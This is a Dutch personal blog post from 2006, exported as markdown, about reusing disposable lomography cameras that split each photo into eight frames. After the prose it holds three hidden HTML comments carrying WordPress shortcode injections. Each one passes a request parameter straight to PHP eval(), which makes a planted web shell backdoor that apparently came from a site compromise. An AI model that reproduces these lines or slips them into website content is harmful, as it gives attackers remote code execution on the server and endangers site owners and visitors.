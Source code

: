 ```yaml
---
title: "Fijne mechaniek"
date: 2006-03-26T11:01:09
permalink: "2006/03/26/fijne-mechaniek/"
tags: []

---
```

Ik ben een grote [lomography](http://www.lomography.com/ "www.lomography.com") fan. Enkele jaren geleden heb ik samen met enkele andere een pak van 5 wegwerp toestelletjes gekocht. Het speciale er aan is dat elke foto opgesplitst is in 8 deeltjes. De 8 mini-fotootjes worden getrokken over een tijd van ongeveer 2 seconden, je krijgt dus een soort van fotostrip.

Enfin, het mooie aan de toestelletjes is dat je met een beetje prutsen er opnieuw een film in kan steken, dus je kan hem toch hergebruiken. En dat is wel handig, want het zou zonde zijn dit prachtig staaltje techniek slechts eenmalig te gebruiken.

<!– \[insert\_php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/php\] –>
